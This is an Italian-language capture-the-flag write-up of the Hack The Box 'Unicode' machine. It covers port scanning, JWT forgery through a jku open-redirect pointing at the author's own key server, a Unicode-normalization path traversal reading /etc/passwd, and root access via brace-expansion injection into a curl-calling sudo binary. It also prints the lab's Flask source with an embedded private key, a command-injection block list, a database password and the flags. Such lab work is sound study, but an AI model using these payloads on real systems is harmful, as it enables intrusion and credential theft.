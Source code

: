 #+TITLE: HTB - Unicode
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap 
*** nmap -sC -sV unicode
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-24 03:51 CEST
Nmap scan report for unicode (10.129.75.133)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_  256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Hugo 0.83.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hackmedia
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.90 seconds

  #+end_example

*** nmap -p- unicode
    #+begin_example
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-24 03:52 CEST
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2445.44 seconds    
    #+end_example

** www (80)
*** redirect
    Effettuando una GET all'endpoint ~/redirect/?url=google.com~ il web
    server ci invia la seguente risposta
    
    #+begin_example
HTTP/1.1 302 FOUND
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 24 Jul 2022 02:02:16 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 240
Connection: close
Location: http://google.com

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="http://google.com">http://google.com</a>. If not click the link.    
    #+end_example

    Da notare il campo ~Location~, che è uguale al valore di google.com
    inserito nell'URL iniziale come valore del parametro ~url~.

*** Utilizzo JWT (Json Web Token)
    Il cookie generato dall'applicazione flask è un JWT (Json Web Token)

    #+begin_example
Set-Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy9qd2tzLmpzb24ifQ.eyJ1c2VyIjoibGVvIn0.ZMC1zUK2npFOCFsgg2i4xqusi_XHxXzckb4-QeOaRxt_myvZn6r7RoNfHZxd8qbPPehCUHzN8AsFL7mdh2FoyWGBoS2o4lFJRF7jZ4cRqSy3F96V99XVzNI3JiMqOVaokHGx8I-qNC0mz6_X_sYeLD6GbPHDG1n8B0K7d9jNmz8j2dbyOgea9cIMUEoGlGiMI_EqjfzghlL8BVpjgUlPuB5TI9-Uo6HEOs1Gc3oRSV0sGHG-Dlmtf3B9UinqcYyR85vjO348zG6Exss7mEk4ANuwxJ4bRyist7ktj6-pQgFFCSwvzvwd7bdJUYlaoYP497mASGs8yQxGHplH7gM_Zw    
    #+end_example
 
    Andandolo ad analizzare con https://jwt.io/ otteniamo le tre parti
    del cookie:

    - header
      
      #+begin_src js
{
  "typ": "JWT",
  "alg": "RS256",
  "jku": "http://hackmedia.htb/static/jwks.json"
}          
      #+end_src
    
    - payload

      #+begin_src js
{
  "user": "leo"
}      
      #+end_src

    - signature
      
      #+begin_example
ZMC1zUK2npFOCFsgg2i4xqusi_XHxXzckb4-QeOaRxt_myvZn6r7RoNfHZxd8qbPPehCUHzN8AsFL7mdh2FoyWGBoS2o4lFJRF7jZ4cRqSy3F96V99XVzNI3JiMqOVaokHGx8I-qNC0mz6_X_sYeLD6GbPHDG1n8B0K7d9jNmz8j2dbyOgea9cIMUEoGlGiMI_EqjfzghlL8BVpjgUlPuB5TI9-Uo6HEOs1Gc3oRSV0sGHG-Dlmtf3B9UinqcYyR85vjO348zG6Exss7mEk4ANuwxJ4bRyist7ktj6-pQgFFCSwvzvwd7bdJUYlaoYP497mASGs8yQxGHplH7gM_Zw      
      #+end_example

   Da notare il valore ~jku~ nel campo header, che punta ad un URI che
   contiene una chiave pubblica RSA in formato JSON. Mettendo
   l'hostname ~hackmedia.htb~ nel file ~/etc/hosts~ e andando all'url
   ~http://hackmedia.htb/static/jwks.json~ otteniamo
   
   #+begin_src js
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "AMVcGPF62MA_lnClN4Z6WNCXZHbPYr-dhkiuE2kBaEPYYclRFDa24a-AqVY5RR2NisEP25wdHqHmGhm3Tde2xFKFzizVTxxTOy0OtoH09SGuyl_uFZI0vQMLXJtHZuy_YRWhxTSzp3bTeFZBHC3bju-UxiJZNPQq3PMMC8oTKQs5o-bjnYGi3tmTgzJrTbFkQJKltWC8XIhc5MAWUGcoI4q9DUnPj_qzsDjMBGoW1N5QtnU91jurva9SJcN0jb7aYo2vlP1JTurNBtwBMBU99CyXZ5iRJLExxgUNsDBF_DswJoOxs7CAVC5FjIqhb1tRTy3afMWsmGqw8HiUA2WFYcs",
            "e": "AQAB"
        }
    ]
}   
   #+end_src

   Che è proprio una chiave RSA codificata in formato JSON.

*** Generazione JWT 
    Prima genero chiave rsa con ~ssh-keygen~
    
    #+begin_src sh
ssh-keygen -t rsa -N "" -m PEM -f key    
    #+end_src

    E poi utilizzo la libreria python ~jwt~
    
    #+begin_src sh
pip install jwt    
    #+end_src

    il codice python è il seguente
    
    #+begin_src python
#!/usr/bin/env python3

import jwt

if __name__ == "__main__":
    private_key = open("key").read().encode()
    token = jwt.encode({"user": "admin"},
                       private_key,
                       headers={"jku": "http://hackmedia.htb/static/../redirect/?url=10.10.14.28:1337/jwks.json"},
                       algorithm="RS256")
    print(token)
    
    #+end_src

    Da notare il particolare URL messo al posto di ~jku~
    
    #+begin_example
    http://hackmedia.htb/static/../redirect/?url=10.10.14.28:1337/jwks.json
    #+end_example

    l'URL permette di effettuare una SSRF
    (Server-Side-Request-Forgery) nel contesto della validazione del
    token JWT. In particolare ci permette di forzare il server ad
    utilizzare delle specifiche chiavi publiche per verificare la
    firma del token.

    Abbiamo dovuto utilizzare il trucco del ~/redirect~ perché senza il
    server dava un msg di errore validazione jku. 

    -----------------------------

    A questo punto scriviamo il file corretto ~jwks.json~ che contiene
    la chiave pubblica in formato jwt. Prima generiamo la chiave
    pubblica in formato PEM.
    
    #+begin_src sh
openssl rsa -in key -pubout > key.pub    
    #+end_src

    Poi utilizziamo il seguente sito
    https://irrte.ch/jwt-js-decode/pem2jwk.html per ottenere il file
    ~jwks.json~
    
    #+begin_src js
{
    "kty": "RSA",
    "n": "2WeExR7HbQbr2AU3FxzrM3IxRg6mifCd6Fvy6tdHo_BQkoMbbvHYWUmpHSa2bayLLdFA0o-TbXxJ4VPyYiHkga3mhiEp8YKMuqGc68G4JTMrYYfmCoxi7vG3KY_-fofvJ-nSP_vss2B2JmV5E-b6hm8HyEdGQ6nAeOCqNKaNQI0xdYna12IIzmbKC-StKchvJOiXqdkKyIPwXGL_f8ifnfUzuW6gWiFqYp2fBexGxmJvVG2OUpvkF7Sk-MFyTMokk6cYDg9FakX2pLCLkToUVRWv9EJNSS25CoRaK4m52Ly2QB9Q8TI4cDdzWp7Kektebr07iRzr5D3ASn18q4FeWGJiXyU4vmvkfINYUijpZ4v93T6neKHGnOYGpDe4_u5C2MQSwQUk3oqOnAAH4NzrMrlzHaJklZETD_SUeu0rTDMI9yqbURBMpbgqySUkZZv9v3cjApQcZHpUB57zFIjPuLDqwqlj9OXqjs8BENu2vVoYjrzp2QHD2vrVHPpoYpSP",
    "e": "AQAB"
}    
    #+end_src

*** Unicode Normalization per LFI
    Dopo aver generato il cookie JWT valido, siamo entrati in un'altra
    sezione della web app. In particolare c'era il seguente URL

    #+begin_example
http://unicode/display/?page=monthly.pdf
    #+end_example

    Per ottenere una LFI è stato necessario utilizzare un tipico
    payload che attacca la ~unicode normalization~
    
    https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability
    
    In particolare il payload è il seguente
    
    #+begin_example
http://unicode/display/?page=..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f/etc/passwd
    #+end_example

    ------------------------------------

    Il seguente codice python permette di capire il perché della
    vulnerabilità
    
    #+begin_src python
import unicodedata

# page="../"
page="..／"

print(page)

if "../" in page:
    print("ERROR!")
    exit()
    
safe_page=unicodedata.normalize('NFKC', page)
print(safe_page)    
    #+end_src

*** app.py
    Codice dell'applicazione presa dopo aver ottenuto la shell da user ~code~.
    
    #+begin_src python
import base64
from MySQLdb import cursors
from flask import Flask, abort, request,render_template,make_response,redirect
from werkzeug.utils import secure_filename
import unicodedata
import os
import jwt
from flask_mysqldb import MySQL
import yaml
import requests
import json
import traceback
app = Flask(__name__)

db=yaml.load(open('db.yaml'))
app.config['MYSQL_HOST']= db['mysql_host']
app.config['MYSQL_USER']=db['mysql_user']
app.config['MYSQL_PASSWORD']=db['mysql_password']
app.config['MYSQL_DB']=db['mysql_db']
app.debug=True

mysql=MySQL(app)

@app.route('/')
def Welcome_name():
  return render_template("index.html")
@app.route('/register/',methods=['GET','POST'])
def register():
  if request.method=="GET":
    return render_template('register.html')
  if request.method=="POST":
    username=request.form.get('username')
    username=username.lower()
    if request.form.get('password')==request.form.get('password_confirm'):
      password=request.form.get('password')
      cur=mysql.connection.cursor()
      cur.execute("select username from user_info where username=%s",[username])
      data=cur.fetchall()
      cur.close()
      if len(data)==0:
        cur=mysql.connection.cursor()
        cur.execute("insert into user_info(username,password) values(%s,%s)",(username,password))
        mysql.connection.commit()
        cur.close()
        return redirect("/login",code=302)
      else:
        msg="User alreay exist"
        return render_template("register.html",msg=msg)
    else:
      msg="PASSOWRD DOSENT MATCH"
      return render_template('register.html',msg=msg)
@app.route('/login/',methods=['GET','POST'])
def login():
  if request.method=="GET":
    if request.cookies.get('auth'):
      return redirect("/dashboard/")
    else:
      return render_template('login.html')
  if request.method=="POST":
    priv=b'-----BEGIN RSA PRIVATE KEY-----\nMIIEpAIBAAKCAQEAxVwY8XrYwD+WcKU3hnpY0Jdkds9iv52GSK4TaQFoQ9hhyVEU\nNrbhr4CpVjlFHY2KwQ/bnB0eoeYaGbdN17bEUoXOLNVPHFM7LQ62gfT1Ia7KX+4V\nkjS9Awtcm0dm7L9hFaHFNLOndtN4VkEcLduO75TGIlk09Crc8wwLyhMpCzmj5uOd\ngaLe2ZODMmtNsWRAkqW1YLxciFzkwBZQZygjir0NSc+P+rOwOMwEahbU3lC2dT3W\nO6u9r1Ilw3SNvtpija+U/UlO6s0G3AEwFT30LJdnmJEksTHGBQ2wMEX8OzAmg7Gz\nsIBULkWMiqFvW1FPLdp8xayYarDweJQDZYVhywIDAQABAoIBABbQhrGjmdrffuyW\nrMyG6C100tBJOQkdlKBiPywsVXlCUkuLa+LHUV+QaALnq+22pwuaYbCyTRA6IVpH\nrl/5aMiBX0wffH2xwW17/e0X/B5grlRYmXXFUvQ/I/1vS56ioP53LOzit8EswQR3\nkmJatzNK53yhA1YWfmQ6SEKb5Gq/ksMG3T5BHi0GWkR7YmbfvqgcNTlWgmlKj3qp\n5JQWpaWea4tEtdoV06kciE8ugs4R0Tzd4NbjXGJiidoMY/mvcm7Ln425cYEJj+44\naGmOnoFLSNJaVk6mYWzXpOLZAjPDSROI+mYj1gRR9PROnvHVZWKsogBl+DMCq46h\n/GIqNwECgYEA+s7d17mrDFuo0qQfr8AP/ThVujwvmcBCtQsI/a0DrSHFRV1c9zK9\nTeKZ/0FqOFnNr4a+F7LKYT9PpsbOClJbNP7nLJXE64vQLQVB/IbkJ6bDw63LZRvX\nPFp3xr3ltMrQ+bjEkt3IHF0ae20II5W3mjaEPG7Gd/Gnpi61NF53LhECgYEAyXH8\nkoQr2IB3jduwN2mNYrc1Twb1QDhj9a4/W/yIsgIbJ4/8sjuJyehvm1Xb2f9axY6Q\nCpse4piYYnKSk3AqbSThVW+X4LgXlKR0Xe5Zhsf/F2072+822h1wRyqKR4xM5kbv\n5ruH9ZTi2K0Fll3rGhDzJ0ygoe0uGmWG2bNNJhsCgYEAqDjaORhSbt6HtIjaq/Hh\nh5EihuBZeQGofG/jXuqN3bEZ9LVzZmZE7JmBeuCwUw2A1StGEvUbovBpB06u4eNt\nQ3V5LsFhrC9BuQCeyrbbDvFeur+1/aIX0mZHkijKimHCmsxgJLXWw5d67LAr1lpU\nJH5OYY5XVhnivab0aSS3QVECgYAVZX8PTOyfTV3lem0oJZT35D/MSg/op1SutrhS\nG+ulBKY/uIJ9p+dFw+N+20rDx+SrUS4pgjpwlQayhjrdYC+RcjZg7b5zBvqyNhmK\nFJP7xehpY5fVD36DAld3p6QSX2uXlfdLSaXyRsMlgpMyWn1rQluhU/lH2bpo4VnG\na84I+wKBgQDKy7HGzCp6CXbiEUOlitZhST8eq8Dwk+bh9HGMMvrPCMPWBibshwl4\nDFi8Mol0XoiLgrc8fCu7/8wz0ctD+5R63rHG6/vZLsZEW2JsoWP/b/wCdXu/jdXU\nNWpjmc9EgSTEbqhKSSHoXt/Q3HKi770ps7Ajd4O50yu99GLZZ4kVHA==\n-----END RSA PRIVATE KEY-----\n'
    username=request.form.get('username').lower()
    password=request.form.get('password')
    if username=="admin":
      msg="Acces to admin account is been blocked"
      return render_template("login.html",msg=msg)
    else:
      cur=mysql.connection.cursor()
      cur.execute("select username,password from user_info where username=%s and password=%s",(username,password))
      data=cur.fetchall()
      if len(data)!=0:
        creds=data[0]
        if username==creds[0] and password==creds[1]:
          token=jwt.encode({"user": username}, priv, algorithm="RS256",headers={"jku":"http://hackmedia.htb/static/jwks.json"},)
          resp=make_response(redirect('/dashboard/'))
          resp.set_cookie('auth', token)
          return resp
      else:
        msg="user doesnt exist"
        return render_template("login.html",msg=msg)
@app.route("/logout/")
def logout():
  resp=make_response(redirect('/login/'))
  resp.set_cookie('auth','',expires=0)
  return resp
@app.route("/dashboard/",methods=["GET","POST"])
def dashboard():
  if request.cookies.get('auth'):
    auth_cookie=request.cookies.get('auth')
    try:
      token_head=auth_cookie.split(".")[0]
      if len(token_head)%4!=0:
        no_equal_adder=4-len(auth_cookie.split(".")[0])%4
        equal_adder=no_equal_adder*"="  
        token_head=token_head+equal_adder
      decoded_token=base64.urlsafe_b64decode(token_head).decode('utf-8')
      url=decoded_token.split('"jku"')[1].lstrip(":").rstrip("}").strip('"')
      if '"' in url:
        url=url.replace('"',"")
      url=url.strip('\n')
      url=url.strip()
      print(len(url))
      if url.startswith("http://hackmedia.htb/static/"):
        resp=requests.get(url)
        data=json.loads(resp.text)
        jwk=data["keys"][0]
        key=jwt.algorithms.RSAAlgorithm.from_jwk(json.dumps(jwk))
        decoded_token=jwt.decode(auth_cookie, key , algorithms=["RS256"])
      else:
        return "jku validation failed"
    except:
      return render_template("login.html")
    if decoded_token['user']=="admin":
      return render_template("admin_dashboard.html")
    else:
      return render_template("user_dashboard.html",username_send=decoded_token['user'])
  else:
    return render_template("login.html")
@app.route('/display/',methods=['GET'])
def display():
  if request.cookies.get('auth'):
    auth_cookie=request.cookies.get('auth')
    admin_check=""
    try:
      token_head=auth_cookie.split(".")[0]
      if len(token_head)%4!=0:
        no_equal_adder=4-len(auth_cookie.split(".")[0])%4
        equal_adder=no_equal_adder*"="  
        token_head=token_head+equal_adder
      decoded_token=base64.urlsafe_b64decode(token_head).decode('utf-8')
      url=decoded_token.split('"jku"')[1].lstrip(":").rstrip("}").strip('"')
      if '"' in url:
        url=url.replace('"',"")
      url=url.strip('\n')
      url=url.strip()
      if url.startswith("http://hackmedia.htb/static/"):
        resp=requests.get(url)
        data=json.loads(resp.text)
        jwk=data["keys"][0]
        key=jwt.algorithms.RSAAlgorithm.from_jwk(json.dumps(jwk))
        admin_check=jwt.decode(auth_cookie, key , algorithms=["RS256"])
      else:
        return "JKU validation Falied"
    except:
      return redirect('login')
    if admin_check['user']=="admin":
      if request.args.get('page'):
        page=request.args.get('page')
        page=page.lower()
        file_to_send=""
        if "../" in page or page.startswith("/etc") or page.startswith("/proc") or page.startswith("/usr") or page.startswith("usr") or page.startswith("etc") or page.startswith("proc"):
          return redirect("/filenotfound/",code=302)
        else:
            safe_page=unicodedata.normalize('NFKC', page)
            safe_page_folder=os.getcwd()+"/"+"files/"+safe_page
            try:
              with open(safe_page_folder,"r") as fd:
                  file_to_send=fd.readlines()
              file_to_send_string=''.join([str(elem) for elem in file_to_send])
              return str(file_to_send_string)
            except:
              msg=safe_page+" Not found"
              return render_template("404.html",msg=msg)
      else:
        return "Missing Parameter"
    else:
      return redirect("/unauth_error/",code=302)
  else:
    return redirect("/unauth_error/",code=302)
@app.route("/redirect/",methods=["GET"])
def test():
  url="http://"+request.args.get("url")
  return redirect(url,code=302)
@app.route("/upload/",methods=["GET","POST"])
def file_upload():
  try:
    if request.method=="GET":
      if request.cookies.get('auth'):
        return render_template("upload.html")
    if request.method=="POST":
      allowed_files=["pdf","docx","php","py","asp"]
      f = request.files['threat_report']
      user_supplied_extension=f.filename.rsplit('.',1)
      if user_supplied_extension[1] in allowed_files:
        return render_template("thanks.html")
      else:
        return "file not allowed"
  except:
    return "Please select a file to upload."
@app.route("/debug/")
def debug():
  debug_value=request.args.get("value")
  if debug_value==0:
    return "debug is disabled"
  else:
    return render_template("debug.html")
@app.route("/pricing/")
def pricing():
  return render_template("pricing.html")
@app.route("/checkout/")
def checkout():
  return render_template("checkout.html")
@app.route("/purchase_done/")
def purchase():
  return render_template("thanks_purchase.html")
@app.route('/error/',methods=["GET"])
def error():
  return render_template("404.html")
@app.route("/filenotfound/")
def error_from_page():
  msg="we do a lot input filtering you can never bypass our filters.Have a good day"
  return render_template("404.html",msg=msg)
@app.route("/unauth_error/",methods=["GET"])
def unauth():
  msg="unauthorized access"
  return render_template("401.html",msg=msg)
@app.route("/rate-limited/")
def rate_limited():
  return render_template("503.html")
@app.errorhandler(404)
def not_found(e):
  return render_template("404.html")
@app.route("/internal/")
def internal_error():
  #return "500 error caught"
  return traceback.format_exc()
if __name__ == "__main__":
    app.run(host='0.0.0.0')    
    #+end_src

** gobuster
*** gobuster dir -w ~/repos/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://unicode --exclude-length 9294,9343
    #+begin_example
/login                (Status: 308) [Size: 248] [--> http://unicode/login/]
/register             (Status: 308) [Size: 254] [--> http://unicode/register/]
/upload               (Status: 308) [Size: 250] [--> http://unicode/upload/]  
/redirect             (Status: 308) [Size: 254] [--> http://unicode/redirect/]
/display              (Status: 308) [Size: 252] [--> http://unicode/display/] 
/pricing              (Status: 308) [Size: 252] [--> http://unicode/pricing/]

/upload               (Status: 308) [Size: 250] [--> http://unicode/upload/]
/display              (Status: 308) [Size: 252] [--> http://unicode/display/]
/logout               (Status: 308) [Size: 250] [--> http://unicode/logout/] 
/checkout             (Status: 308) [Size: 254] [--> http://unicode/checkout/
    #+end_example

* PrivEsc
** files
*** /etc/passwd
    #+begin_example
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
code:x:1000:1000:,,,:/home/code:/bin/bash   
    #+end_example

*** /etc/nginx/sites-available/default
    #+begin_example
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=800r/s;
server{
#Change the Webroot from /home/code/app/ to /var/www/html/
#change the user password from db.yaml
	listen 80;
	error_page 503 /rate-limited/;
	location / {
                limit_req zone=mylimit;
		proxy_pass http://localhost:8000;
		include /etc/nginx/proxy_params;
		proxy_redirect off;
	}
	location /static/{
		alias /home/code/coder/static/styles/;
	}
}    
    #+end_example

*** /home/code/coder/db.yaml
    #+begin_example

mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
    
    #+end_example
** as code
*** sudo -l
    #+begin_example
code@code:~$ sudo -l
Matching Defaults entries for code on code:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport    
    #+end_example
** python binary decompilation
   Come l'utente ~code~ siamo in grado di eseguire da root il seguente
   binario ~/usr/bin/treport~.

   Andando a vedere tramite strings otteniamo la stringa ~pydata~, il
   che ci suggerisce che il binario è stato ottenuto andando a
   compilare del codice python.

   L'idea quindi è quella di fare del ~reverse engineering~, per passare
   dal compilato al codice sorgente originale. A tale fine i seguenti
   due tool saranno necessari:

   - Per passare da binario a byte-code python utilizzeremo
     ~pyinstxtractor~.

     https://github.com/extremecoders-re/pyinstxtractor

   - Per passare da byte code python a codice sorgente python invece
     utilizzeremo ~pycdc~.

     https://github.com/zrax/pycdc

     Per compilare il progetto devo fare
     
     #+begin_src sh
git clone https://github.com/zrax/pycdc
cd pycdc
cmake CMakeLists.txt
make
     #+end_src

   Il processo è quindi così descritto:
   
   #+begin_example
   ELF binary ---> byte-code python ---> codice sorgente python   
   #+end_example

   tramite i seguenti comandi
   
   #+begin_src sh

cd pyinstxtractor
python3 pyinstxtractor.py ../treport

cd ../pycdc
./pycdc ../pyinstxtractor/treport_extracted/treport.pyc -o treport.py
   #+end_src

   Alla fine ottengo il seguente codice sorgente python
   
   #+begin_src python
# Source Generated with Decompyle++
# File: treport.pyc (Python 3.9)

import os
import sys
from datetime import datetime
import re

class threat_report:
    
    def create(self):
        file_name = input('Enter the filename:')
        content = input('Enter the report:')
        if '../' in file_name:
            print('NOT ALLOWED')
            sys.exit(0)
        file_path = '/root/reports/' + file_name
    # WARNING: Decompyle incomplete

    
    def list_files(self):
        file_list = os.listdir('/root/reports/')
        files_in_dir = ' '.join((lambda .0: [ str(elem) for elem in .0 ])(file_list))
        print('ALL THE THREAT REPORTS:')
        print(files_in_dir)

    
    def read_file(self):
        file_name = input('\nEnter the filename:')
        if '../' in file_name:
            print('NOT ALLOWED')
            sys.exit(0)
        contents = ''
        file_name = '/root/reports/' + file_name
    # WARNING: Decompyle incomplete

    
    def download(self):
        now = datetime.now()
        current_time = now.strftime('%H_%M_%S')
        command_injection_list = [
            '$',
            '`',
            ';',
            '&',
            '|',
            '||',
            '>',
            '<',
            '?',
            "'",
            '@',
            '#',
            '$',
            '%',
            '^',
            '(',
            ')']
        ip = input('Enter the IP/file_name:')
        res = bool(re.search('\\s', ip))
        if res:
            print('INVALID IP')
            sys.exit(0)
        if 'file' in ip and 'gopher' in ip or 'mysql' in ip:
            print('INVALID URL')
            sys.exit(0)
        cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
        os.system(cmd)


# WARNING: Decompyle incomplete
   
   #+end_src

** to get root
   L'idea è quella di utilizzare la ~brace expansion~ di bash per
   iniettare il seguente payload nella sezione download del binario
   ~treport~
   
   #+begin_example
code@code:/tmp$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:{FILE:///tmp/prova,-o,/root/.ssh/authorized_keys}
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   562  100   562    0     0   548k      0 --:--:-- --:--:-- --:--:--  548k
Enter your choice:
   
   #+end_example

   dove ~/tmp/prova~ conteneva una chiave pubblica generata tramite
   ~ssh-keygen~ e trasportata nella macchina remota.

* Flags
  - *user*: a2eaef3add50c11c0e774a1fab550d40
  - *root*: f26a3e5ef69b61ecda1035562b4570d5
